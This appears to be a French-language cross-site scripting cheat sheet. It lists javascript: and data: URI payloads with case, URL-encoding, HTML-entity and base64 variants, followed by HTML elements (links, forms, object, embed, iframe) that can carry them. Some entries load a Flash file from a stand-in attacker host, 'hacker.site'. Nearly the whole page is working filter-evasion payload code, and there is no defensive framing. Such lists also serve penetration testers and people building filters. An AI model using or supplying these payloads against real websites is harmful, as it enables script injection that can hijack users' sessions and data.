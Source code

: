 Autres injections grace au scheme javascript et data : `javascript:alert(1)`

```
javascript:alert(1)
JavaSCript:alert(1)
javascript:%61%6c%65%72%74%28%31%29 //URL encode
javascript&colon;alert(1)
javascript&#x003A;alert(1)
javascript&#58;alert(1)
&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3aalert(1)
java        //Note the new line
script:alert(1)
data:text/html,<script>alert(1)</script>
DaTa:text/html,<script>alert(1)</script>

data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e

data:text/html;charset=UTF-8,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg

data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```

Exemple d'endroit où on peut l'injecter :

```
<a href="javascript:alert(1)">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>

<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>

<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">

<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>

<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>

<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

//Special cases
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf

<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf

<iframe srcdoc="<svg onload=alert(4);>">
```

---